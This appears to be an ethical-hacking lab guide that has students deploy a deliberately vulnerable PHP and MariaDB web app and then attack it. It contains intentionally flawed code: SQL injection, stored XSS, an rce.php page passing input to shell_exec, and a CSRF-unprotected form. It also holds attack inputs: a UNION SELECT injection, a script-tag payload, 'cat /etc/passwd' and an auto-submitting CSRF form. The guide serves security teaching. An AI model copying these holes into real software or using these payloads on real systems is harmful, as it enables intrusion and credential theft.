 This setup includes vulnerabilities like **CSRF**, **Broken Access Control**, **Advanced SQL Injection with UNION SELECT**, **Persistent XSS**, **Remote Code Execution (RCE)**, and **Privilege Escalation** through improper file permissions.

---

### **Advanced Vulnerable Web Application**

**Objective**: 
Students will create and interact with a vulnerable web application hosted on a Google Cloud instance. They will:
1. Deploy a realistic website with intentional vulnerabilities.
2. Attack these vulnerabilities to understand their risks.
3. Implement and observe countermeasures.

---

### **1. Environment Setup**

#### **1.1 Prerequisites**
- Set up a Google Cloud instance with **Debian** or **Ubuntu**.
- Install the required software:
  ```bash
  sudo apt update
  sudo apt install apache2 php php-mysqli mariadb-server mariadb-client -y
  sudo systemctl start apache2
  sudo systemctl enable apache2
  sudo systemctl start mariadb
  sudo systemctl enable mariadb
  ```
- Create a directory for the PHP application:
  ```bash
  sudo mkdir /var/www/html/vulnerable-app
  sudo chown -R $USER:$USER /var/www/html/vulnerable-app
  cd /var/www/html/vulnerable-app
  ```

#### **1.2 Database Setup**
- Set up MariaDB:
  ```bash
  sudo mysql -u root
  ```
- Execute the following SQL:
  ```sql
  CREATE DATABASE vulnerable_app;
  CREATE USER 'vulnerable_user'@'localhost' IDENTIFIED BY 'password123';
  GRANT ALL PRIVILEGES ON vulnerable_app.* TO 'vulnerable_user'@'localhost';
  FLUSH PRIVILEGES;
  USE vulnerable_app;

  CREATE TABLE users (
      id INT AUTO_INCREMENT PRIMARY KEY,
      username VARCHAR(50) NOT NULL,
      password VARCHAR(255) NOT NULL,
      role VARCHAR(20) DEFAULT 'user'
  );

  CREATE TABLE messages (
      id INT AUTO_INCREMENT PRIMARY KEY,
      user_id INT NOT NULL,
      message TEXT NOT NULL,
      FOREIGN KEY (user_id) REFERENCES users(id)
  );

  INSERT INTO users (username, password, role) VALUES 
  ('admin', 'adminpass', 'admin'), 
  ('guest', 'guestpass', 'user');
  ```

---

### **2. Vulnerable Application Code**

#### **2.1 Advanced SQL Injection with UNION SELECT**
**Filename: `login.php`**
```php
<?php
$conn = new mysqli("localhost", "vulnerable_user", "password123", "vulnerable_app");

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Vulnerable Query
    $query = "SELECT id, username, role FROM users WHERE username = '$username' AND password = '$password'";
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
        $user = $result->fetch_assoc();
        echo "<h1>Welcome, " . htmlspecialchars($user['username']) . "!</h1>";
        echo "<p>Role: " . htmlspecialchars($user['role']) . "</p>";
    } else {
        echo "<h1>Login Failed!</h1>";
    }
}
?>
<form method="POST">
    <label>Username:</label><br>
    <input type="text" name="username"><br>
    <label>Password:</label><br>
    <input type="password" name="password"><br>
    <button type="submit">Login</button>
</form>
```

---

#### **2.2 Persistent XSS**
**Filename: `post_message.php`**
```php
<?php
$conn = new mysqli("localhost", "vulnerable_user", "password123", "vulnerable_app");

if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $user_id = $_POST['user_id'];
    $message = $_POST['message'];

    // Vulnerable Insert Query
    $query = "INSERT INTO messages (user_id, message) VALUES ('$user_id', '$message')";
    if ($conn->query($query)) {
        echo "<h1>Message Posted!</h1>";
    } else {
        echo "<h1>Error: " . $conn->error . "</h1>";
    }
}
?>
<form method="POST">
    <input type="hidden" name="user_id" value="1">
    <label>Message:</label><br>
    <textarea name="message"></textarea><br>
    <button type="submit">Post</button>
</form>
```

**Display Messages**
**Filename: `view_messages.php`**
```php
<?php
$conn = new mysqli("localhost", "vulnerable_user", "password123", "vulnerable_app");

$query = "SELECT * FROM messages";
$result = $conn->query($query);

echo "<h1>Message Board</h1>";
while ($row = $result->fetch_assoc()) {
    echo "<p>" . $row['message'] . "</p>";
}
?>
```

---

#### **2.3 Remote Code Execution (RCE)**
**Filename: `rce.php`**
```php
<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $cmd = $_POST['command'];

    // Vulnerable Command Execution
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
}
?>
<form method="POST">
    <label>Enter Command:</label><br>
    <input type="text" name="command"><br>
    <button type="submit">Execute</button>
</form>
```

---

#### **2.4 Cross-Site Request Forgery (CSRF)**
**Filename: `csrf_form.php`**
```php
<form action="update_profile.php" method="POST">
    <label>New Email:</label>
    <input type="email" name="email">
    <button type="submit">Update</button>
</form>
```

**Filename: `update_profile.php`**
```php
<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'];
    // Simulate updating email without CSRF token
    echo "<h1>Email updated to: $email</h1>";
}
?>
```

---

### **3. Real-World Scenarios**

#### **Scenario 1: Exploiting SQL Injection**
- Input the following into the login form to dump user data:
  - Username: `' OR 1=1 UNION SELECT 1, username, password FROM users--`
  - Password: Any value

#### **Scenario 2: Persistent XSS**
- Post a malicious script on the message board:
  - `<script>alert('Persistent XSS');</script>`
- View the message board and observe the execution.

#### **Scenario 3: RCE**
- Execute server-side commands, such as:
  - `ls` (list files)
  - `cat /etc/passwd` (view sensitive files)

#### **Scenario 4: CSRF**
- Craft a malicious HTML file to exploit CSRF:
  ```html
  <form action="http://your-server-ip/update_profile.php" method="POST">
      <input type="hidden" name="email" value="attacker@example.com">
  </form>
  <script>document.forms[0].submit();</script>
  ```

---

### **4. Observations and Report**
Students should document:
1. How vulnerabilities were exploited.
2. Screenshots of successful attacks.
3. Recommendations for countermeasures:
   - Prepared Statements for SQL Injection.
   - Escaping User Input for XSS.
   - CSRF Tokens for CSRF Prevention.
   - Shell Command Escaping for RCE.

---

This setup provides a **comprehensive real-world environment** for ethical hacking demonstrations, challenging students to think critically and develop advanced security skills.